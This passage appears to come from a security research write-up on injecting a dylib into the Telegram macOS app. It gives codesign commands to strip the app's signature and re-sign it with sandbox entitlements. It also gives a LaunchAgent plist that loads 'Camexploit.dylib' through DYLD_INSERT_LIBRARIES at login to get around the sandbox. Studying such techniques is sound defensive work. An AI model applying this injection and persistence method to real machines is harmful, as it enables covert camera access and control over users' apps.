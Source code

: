 ```
```

&nbsp;

Let's remove `telegram` app signing:

```
codesign --remove-signature --no-strict /Applications/Telegram.app
```

&nbsp;

Now, Let's sign it using our `Entitlements`:

```
codesign --force --deep --sign "Developer ID" --entitlements entit.plist /Applications/Telegram.app
```

&nbsp;

Finally, Let's take a look at the signing information:

```
codesign -dv --entitlements - /Applications/Telegram.app
```

&nbsp;

&nbsp;

![](/assets/images/e9326812e03e6546697d96f8cdbec4b8)

&nbsp;

We can see clearly that the `sandbox` is activated and if we open the activity monitor app we can see it clearly as the following:

&nbsp;

![](/assets/images/6291fb4d72ee945334b604da3fa56ea6)

&nbsp;

Now, Oppiste to the exploitation way we did in the first part without the `sandbox`, We are going to use the `Launch Agent` to

do tho, So we can bypass the `sandbox`. Here is the agent `plist`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.telegram.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/Users/labatrixteam/telegram/Camexploit.dylib</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
  <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
        </array>
        <key>StandardOutPath</key>
        <string>/tmp/telegram.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/telegram.log</string>
</dict>
```